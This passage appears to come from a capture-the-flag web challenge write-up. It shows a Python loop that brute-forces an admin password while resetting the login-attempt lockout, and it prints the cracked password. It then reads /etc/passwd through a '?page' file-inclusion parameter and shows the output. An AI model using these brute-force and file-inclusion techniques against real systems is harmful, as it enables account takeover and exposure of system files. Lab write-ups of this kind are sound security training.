 ```python

s = requests.Session()

trying = 0

while trying < 100:
	passwd = f"admin{trying:02d}admin"

	print(f"Trying password : {passwd}")

	is_valid = try_comb(s, user='admin', passwd=passwd)

	if is_valid:
		print(f"\nFound valid password : {passwd}")
		break

	# Reset login attemps
	valid_login(s)

	trying += 1

print("Done")
```



We find that the admin password is 

```
admin44admin
```



We can then login as admin and we see a form on `/detail.php` called `whoami`

When we enter a username, we get the user infos :

```
{"id":"551","username":"admin","password":"admin44admin","is_admin":"true"}
```



I was fiddling with the `?page` parameter still and I saw that some stuff were printed when i was doing a `whoami` request with the `?page` parameter. Tried with `?page=/etc/passwd` and we got the content of the file :

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
```